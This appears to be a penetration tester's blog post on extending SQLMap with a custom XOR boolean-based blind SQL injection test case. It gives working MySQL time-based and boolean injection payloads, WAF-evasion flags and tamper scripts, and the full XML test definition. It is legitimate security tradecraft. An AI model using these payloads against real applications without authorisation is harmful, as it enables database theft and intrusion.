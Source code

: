 ```yaml
---
layout: post
title: "Customising SQLMap: Integrating Personalised Injection Payloads"
categories: [SQLi]
description: Using SQLMap with personalised injection payloads
keywords: SQL Injection, SQLMap, Inference
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


# Introduction
At times, SQLMap might mistakenly assess a parameter as secure due to various factors, despite evidence from manual testing indicating otherwise.

We are familiar with the standard flag modifications that SQLMap provides to scan for vulnerabilities - level and risk. Increasing level increases the effective scope for testing with more payloads and boundaries, while increasing the risk allows for heavy time-based injections and OR-based SQL injections.

We can also use SQLMap tamper scripts to obfuscate the payload to bypass filters and WAFs, but there are times where these techniques do not provide complete coverage and identify the vulnerability.

In that case, we can modify the payload XML files that SQLMap stores in their libexec directory and specify the exact payload that is required by adding an additional test case to the file. This was initially discussed in an SQLMap issue located here: [sqlmapproject Issue #4091](https://github.com/sqlmapproject/sqlmap/issues/4091).

**MacOS**
For MacOS users that installed SQLMap via brew we can navigate to the following location to find the XML payload files:
```
    /opt/homebrew/Cellar/sqlmap/[version]/libexec/data/xml/payloads
```
**Linux**
For Linux users the XML payload files should be located here:
```
    /usr/share/sqlmap/data/xml/payloads
```

# Recent Example
The following is a recent example of an XOR boolean-based and time-based blind SQL injection that was manually discovered, however SQLMap was unable to determine the injection location without modification of the XML payload files. There were several issues which will be outlined in the subsequent sections.

## Initial Attack Vector

The initial discovery of the SQL injection was relatively straightforward - a POST request contained the searchline parameter which produced a different status code (500) when double quotes were provided in the search query. Further investigation determined that the application was susceptible to time-based SQL injection, and the following payload could be used to conjure TRUE - FALSE conditions to enumerate the database:

```
"XOR(if(now()=sysdate(),SLEEP((0.25)),0))XOR" // There was a significant delay by a factor of 10, so sleep(0.25) would result in a 2.5 second time delay
```

## Inference-based SQL injection
Inference-based SQL injection take a significant time to extract sensitive information from the database, especially via time-based SQL injection. Fortunately, we were able to determine that the application was also vulnerable to boolean-based SQL injection, which provided a slightly faster avenue to extract data:

```
"XOR(if((select/**/666/**/where/**/1=1),444,0))XOR" // This would result in a TRUE condition returning a response of ~21,000 bytes
"XOR(if((select/**/666/**/where/**/1=2),444,0))XOR" // This would result in a FALSE condition returning ~27,000 bytes
```

The Burp request(s) are as follows (only the POST request is shown and mostly redacted):
<a href="/images/blog/sql-burp-1.png"><img src="/images/blog/sql-burp-1.png"></a>
<p align="center">TRUE condition with ~21,000 byte response</p>

<a href="/images/blog/sql-burp-2.png"><img src="/images/blog/sql-burp-2.png"></a>
<p align="center">FALSE condition with ~27,000 byte response</p>

We can employ the use of SQLMap for automated enumeration of the database, however SQLMap failed to detect the vulnerability:
Initial SQLMap query fails to locate the vulnerabilityThe following flags were provided for testing:

```
-u [location] OR -r [request]
 --data=[POST data]
-p "searchline"
 --random-agent [WAF evasion]
 --dbms=mysql
 --level 1 --risk 1 (as we know the exact location + injection vulnerability, but alternated through different levels/risks)
 --technique=B (Boolean-based blind SQL Injection)
 --tamper=between,space2comment (and others)
 --headers ...
 --prefix="sqli" --suffix="" (prevent SQLMap from adding custom prefix/suffixes)
```

## Initial Problems
There were several factors that made enumeration difficult however:

  + Time-based SQL Injection was cumbersome, and SQLMap requires a minimum sleep time of 1 second. This sleep value is amplified by a factor of 10 on the application, which means sleep(1) would result in a 10 second delay. This would often miss the timing for SQLMap to receive a valid response. This was circumvented by using Boolean-based SQL Injection payloads instead.

  + A Web Application Firewall (WAF) blocked many SQL sensitive strings, including information_schema.tables, which meant table and column names are required to be brute-forced. An eventual WAF bypass was discovered, however this is beyond the topic of this article.

  + SQLMap does not have the XOR payload by default, and so we need to manually add in the test vector.

## Creating New Test Cases
As previously mentioned, we can modify the XML payload files to provide the exact test cases in the event that SQLMap does not recognise our attack vector. These files are located in the /data/xml/payload SQLMap data files depending on where it was installed. We can specify the test element as follows:

```xml
    <test>
        <title>MySQL XOR boolean-based blind</title>
        <stype>1</stype>
        <level>1</level>
        <risk>1</risk>
        <clause>1-8</clause>
        <where>1</where>
        <vector>"XOR(if((select/**/666/**/where/**/[INFERENCE]),444,0))XOR"</vector>
        <request>
            <payload>"XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM]),444,0))XOR"</payload>
        </request>
        <response>
            <comparison>"XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM1]),444,0))XOR"</comparison>
        </response>
        <details>
            <dbms>MySQL</dbms>
        </details>
    </test>
```

The main elements we are concerned about are vector, request and response. We can specify our attack payload in the vector element, and replace the inference logic with [INFERENCE] to point SQLMap to the injection location. The request and response elements accepts the same payload, but replaces the inference with random numbers [RANDNUM]. We should specify a TRUE condition for the request, and a FALSE condition for the response (notice the [RANDNUM1] to indicate a different random number).

## Successful Exploitation
The newly added inference logic allowed SQLMap to create a TRUE/FALSE condition based on the response length, however it was still unable to identify the vulnerability. To circumvent this, we can use the string feature to match a string in the response that is unique to one condition, such as a PNG file. There are other detection methods provided in SQLMap which I encourage the readers to familiarise with:
```
--string=STRING     String to match when query is evaluated to True
--not-string=NOT..  String to match when query is evaluated to False
--regexp=REGEXP     Regexp to match when query is evaluated to True
--code=CODE         HTTP code to match when query is evaluated to True
```
# Conclusion
By providing the previous flags, adding a new test case and providing a string match condition, we were able to enable SQLMap to correctly identify the XOR boolean-based blind vulnerability, and enumerate the database successfully.
